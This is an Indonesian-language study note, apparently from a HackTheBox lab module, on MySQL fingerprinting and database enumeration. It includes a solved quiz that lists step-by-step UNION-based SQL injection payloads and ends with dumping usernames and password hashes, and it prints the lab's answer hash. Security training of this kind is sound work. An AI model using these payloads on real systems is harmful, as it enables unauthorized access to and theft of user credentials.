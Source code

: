 # Database Enumeration
Pada catatan sebelum, kita telah melihat perbedaan query SQL dan bagaimana menggunakan Sql injection. InsyaAllah pada catatan ini kita akan belajar bagaimana untuk mendapatkan data menggunakan SQL injection.

## MySql Fingerprinting
Sebelum menggeledah database, biasanya kita harus mengidentifikasi terlebih dahulu untuk mengidentifikasi DMBS tipe apa yang kita hadapi. Karena, setiap DBMS memliki query yang berbeda-beda dan mengetahuinya akan membantu kita untuk mengetahui query mana yang harus kita gunakan.

Untuk tebakan awal, jika webserver yang kita lihat pada HTTP responsenya Apache atau Nginx maka bisa kita duga webserver tersebut berjalan di Linux dan kemungkinan besar menggunakan DBMS seperti MySQL. Samajuga dengan Micrsoft DBMS, jika webserver menggunakan ISS, makan kemungkinan besar menggunakan MSSQl. Akan tetapi itu adalah tebakan yang bisa jadi salah, karena juga banyak database lain yang digunakan pada OS atau web server. Jadi kita harus mengujinya menggunakan test fingterprint. Ada berbagaimacam query yang dapa kita gunakan untuk menguji fingerprint dari DBMS mana yang kita hadapi.

Pada catatan ini kita hanya menguji apakah DBMS yang kita hadapi MySql atau tidak ?. Dibawah ini adalah payload untuk mengujinya.

| Payload | When to Use | Expected Output |	Wrong Output |
| :------ | :---------- | :-------------- | :----------- |
| `#!sql SELECT @@version` | When we have full query output | MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1' | In MSSQL it returns MSSQL version. Error with other DBMS.|
| `#!sql SELECT POW(1,1)` |	When we only have numeric output | 1 | Error with other DBMS |
| `#!sql SELECT SLEEP(5)` | Blind/No Output | 	Delays page response for 5 seconds and returns 0. | Will not delay response with other DBMS |


## Infomration schema
Kita bisa menggunakan schema `information_schema` untuk mengetahui berbagai macam informasi dari sebuah database, termasuk daftar databases, daftar tabel pada schema, daftar kolom pada sebuah tabel, constraint dari sebuah table, serta index pada tabel. pada quiz dibawah ini kita akan memanfaatkan information_schema untuk menemukan flag.

## Quiz
!!! quote "question"
     What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database? 

    > Janga lupa untuk menggunakan `Openvpn` dan spawn target di HTB

    ??? question "Jawaban"

        Nili masukan pada web ini dapat di inject menggunakan union injection.
        
        `Pertama`
        :   Fingerprint, pada tahap ini kita akan menguji sebuah payload untuk mengetahui tipe dari DBMS, saya menggunakan 

            ```sql
            a' UNION SELECT 1,2,@@version, version_compile_os -- -
            ```

            ![fingerprint](aset/6.1.fingerprint.png)

        `Kedua`
        :   Kita  telah mengetahui DBMS yang kita hadapi, selanjutnya kita gali informasi lainnya menggunakan fungsi `#!sql databases` untuk mengetahui nama databases yang digunakan pada aplikasi ini.

            ```sql
            a' UNION SELECT 1,2,databases(),4 -- -
            ```

            ![fingerprinting-databasename](aset/6.2.fingerprint-database-name.png)

            Nama databases pada apss tersebut adalah **ilfreight**.

        `Ketiga`
        :   Oke, kita sudah selangkah lebih dalam. Selanjutnya kita gali lagi, tabel-tabel yang ada pada schema **ilfreight**. Kita dapat memanfaatkan tabel yang ada pada information schema. InsyaAllah kita akan manfaatkan tabel `informaation_schema.tables`. Tabel `informaation_schema.tables` memliki kolom `TABLE_NAME` untuk melihat nama tabel yang tersedia dan `TABLE_SCHEMA` untuk memfilter schema tertentu saja.

            ```sql
            a' UNION SELECT 1, table_name, table_schema, 4 from information_schema.tables  WHERE TABLE_SCHEMA="ilfreight" -- -
            ```
            ![fingerprinting-databasename](aset/6.3.fingerprint-tables.png)

            Schema **ilfreight** memliki tabel;
            
            *   portss
            *   products
            *   users

        `Keempat`
        :   Kita akan fokus ke tabel `users`, namun kita harus mengetaui nama kolom dari tabel `users` agar bisa disesuaikan dengan jumlahs select kolom pada union injection. Untuk menggali informasi tersebut, lagi-lagi kita manfaatkan tabel pada schema `information_schema`, table yang kita gunakan untuk mengetahui informasi tabel adalah `information_schema.columns`.

            Untuk filter kita menggunakan kolom `information_schema.table_schema` & `information_schema.table_name`.

            ```sql
            a' UNION SELECT 1, COLUMN_NAME,DATA_TYPE,TABLE_SCHEMA FROM information_schema.columns WHERE TABLE_SCHEMA="ilfreight" AND TABLE_NAME = "users" -- -
            ```

            ![fingerprinting-databasename](aset/6.4.fingerprint-column-name-type.png)

            Kita dapat informasi table name dan data type;

            | table name | data type |
            | :--------- | :-------- |
            | id | int |
            | username | varchar |
            | password | varchar |

        `Kelima`
        :   MasyAllah, kita sudah mengetahui DBMS, versi, nama database, nama tabel dan nama kolom. Menggunakan union injection kita dapat mengambil id, username dan password dari data yang sudah kita gali.

            ```sql
            a' UNION SELECT 1, id, username, password from users -- -
            ```

            ![fingerprinting-databasename](aset/6.5.get-secret-data.png)

            Alhamdulillah we got answer from this question.
            **9da2c9bcdf39d8610954e0e11ea8f45f**